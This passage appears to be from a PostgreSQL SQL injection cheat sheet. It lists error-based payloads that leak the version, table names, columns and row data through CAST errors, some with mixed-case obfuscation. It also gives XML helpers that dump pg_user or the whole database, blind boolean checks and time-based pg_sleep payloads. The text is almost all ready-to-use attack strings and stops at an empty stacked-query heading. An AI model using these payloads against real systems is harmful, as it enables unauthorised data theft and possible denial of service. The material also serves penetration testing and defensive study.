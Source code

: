 ## PostgreSQL Error Based

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML helpers

```sql
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```sql
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Stacked Query

